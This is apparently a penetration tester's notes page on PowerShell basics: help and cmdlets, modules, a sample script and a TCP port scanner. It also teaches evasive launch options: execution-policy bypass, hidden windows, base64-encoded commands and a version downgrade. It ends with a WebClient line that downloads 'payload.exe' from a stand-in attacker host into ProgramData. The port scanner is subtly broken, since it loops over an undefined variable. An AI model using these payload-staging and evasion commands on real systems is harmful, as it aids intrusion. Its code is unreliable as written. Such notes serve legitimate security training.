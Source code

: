 # PowerShell Foundamentals

**Powershell** is a powerful built-in shell and scripting environment we can utilize as penetration testers considering its wide-spread availability on all modern Windows-based systems.

> The use of Powershell allows us to take advantage of the "**living-off-the-land**" concept, where using tools that are built-in to the Operating System work to our adbantage once we've obtained access to a system
>
> [https://www.secureworks.com/blog/living-off-the-land](https://www.secureworks.com/blog/living-off-the-land)

#### PowerSploit

PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration testers during all phases of an assessment.&#x20;

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

### Powershell CLI

```powershell
# get help in powershell cli 
powershell /?
```

<pre class="language-powershell"><code class="lang-powershell"><strong># Get-Help
</strong><strong>
</strong># get help of a particular command (like man in unix)
Get-Help Get-Help -Full
Get-Help Get-Help -Example
Get-Help Get-Help -Online # online page

# Update help library
Update-Help
</code></pre>

#### Get-Command

It allows us to list all cmdlets, aliases, functions, workflows, filters, scripts, and any applications that are available for us to use in PowerShell

```powershell
# Get-Command
Get-Command -Name *Firewall*
```

***

### PowerShell Options

#### -ExecutionPolicy

The PowerShell execution policy determines which scripts if any, we can run and can easily be disable with the "Bypass" or "Unrestricted" arguments.

<pre class="language-powershell"><code class="lang-powershell"><strong>powershell.exe -ExecutionPolicy Bypass .\script.ps1
</strong>powershell.exe -ep Bypass .\script.ps1 # short command
powershell.exe -ep by .\script.ps1 # short command

powershell.exe -ExecutionPolicy Unrestricted.\script.ps1
</code></pre>

#### -WindowsStyle

The _-WindowsStyl_ parameter hides the Powershell window when used with the "hidden" argument.

```powershell
powershell.exe -WindowStyle Hidden .\script.ps1
powershell.exe -W h .\script.ps1 # short command
powershell.exe -Wi hi  .\script.ps1 # short command
```

#### -Command

The _-Command_ parameter is used to specify a Command or Script Block to run.

```powershell
powershell.exe -Command Get-Process
powershell.exe -Command "& { Get-EventLog -LogName security }"
```

#### -EncodedCommand

The _-EncodedCommand_ parameter is used to execute base64 encoded scripts or commands

```powershell
powershell.exe -EncodedCommand $encodedCommand
powershell.exe -enco $encodedCommand # short command
powershell.exe -ec $encodedCommand # short command
```

#### -NoProfile

The _-NoProfile_ parameter don't load any powershell profiles

> **Profiles** are essentially scripts that run when the powershell executable is launched and can interfere with out operations

```powershell
powershell.exe -NoProfile .\script.ps1
```

#### -Version

We can use the -Version parameter followed by a version number as the argument to downgrade the version of powershell.

> Useful in scenarios where you've landed on a machine with a more recent version and need to downgrade to Version 1.0 or 2.0 to complete certain tasks.
>
> Requires that older versions are stille installed on the target.

```powershell
powershell.exe -Version 2
```

***

### Powershell Cmdlets

**cmdlet** -- pronounced command-let -- is a small, lightweight command that is used in the Windows PowerShell environment. A cmdlet typically exists as a small script that is intended to perform a single specific function such as coping files and changing directories.

{% hint style="info" %}
[https://www.techtarget.com/whatis/definition/cmdlet](https://www.techtarget.com/whatis/definition/cmdlet)
{% endhint %}

```powershell
# ex.
Get-ChildItem
Get-Process
```

#### Get-Process

```powershell
# Create a table with ProcessName and Id of the process 
Get-Process | Sort-Object -Unique | Select-Object ProcessName, Id
```

<pre class="language-powershell"><code class="lang-powershell"><strong># Get a program path from process name utilize pipes
</strong><strong>Get-Process chrome, firefox | Sort-Object -Unique | Format-List Path
</strong></code></pre>

#### Get-Alias

Use this cmdlet with thr "-Definition" parameter followed by a cmdlet name to find what the **aliases**.

```powershell
Get-Alias -Definition Get-ChildItem
```

#### Get-WmiObject

Allow us to view Windows information&#x20;

```powershell
Get-WmiObject -class win32_operatingsystem | select -Property * | Select-Object Version
```

***

### PowerShell Modules

A module is a set of PowerShell functionalities grouped together in the form of a single file that will typically have a ".psm1" file extension.

There are also several different types of modules:

* [Script Modules](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/10-script-modules?view=powershell-7.4)
* [Binary Modules](https://learn.microsoft.com/it-it/powershell/scripting/developer/module/how-to-write-a-powershell-binary-module?view=powershell-7.4)
* [Manifest Modules](https://learn.microsoft.com/en-us/powershell/scripting/developer/module/how-to-write-a-powershell-module-manifest?view=powershell-7.4)
* Dynamic Modules

```powershell
# to obtain a list of all currently imported modules
Get-Module
```

```powershell
# to obtain a list of all available modules
Get-Module -ListAvailable
```

```powershell
# import a local module
Import-Module .\module.psm1

# Find a online module
Find-Module -Name PowerShellGet

# install online module by name
Install-Module -Name PowerShellGet
```

{% hint style="info" %}
Install-Module Microsoft page\
[https://learn.microsoft.com/en-us/powershell/module/powershellget/install-module?view=powershellget-3.x](https://learn.microsoft.com/en-us/powershell/module/powershellget/install-module?view=powershellget-3.x)
{% endhint %}

***

### PowerShell Scripts

Example of simple powershell script that get file contents

<pre class="language-powershell" data-title="example.ps1"><code class="lang-powershell"><strong>Param(
</strong>    [parameter(mandatory=$true)][string]$file
)
Get-Content "$file"
</code></pre>

Run this script in powershell with this command

```powershell
.\example.ps1 users.txt

# output
john
sara
adam
...
```

#### Simple TCP Port scanner script

{% code overflow="wrap" lineNumbers="true" %}
```powerquery
Param(
    [parameter(mandatory=$true)][string]$ip
)

$port=(80,445);

foreach ($port in $ports) { 
    try { 
        $socket=New-Object System.Net.Sockets.TcpClient($ip,$port); 
    } catch{};
    if ($socket -eq $null) {
        echo $ip":"$port" -Closed";
    } else {
        echo $ip":"$port" - Open"; $socket = $null;
    }
}
```
{% endcode %}

***

### PowerShell Objects

#### Creating .NOT Objects

```powershell
$webclient = New-Object System.Net.WebClient

$payload_url = "https://ATT_IP/payload.exe"
$file = "C:\ProgramData\payload.exe"
$webclient.DownloadFile($payload_url,$file)
```



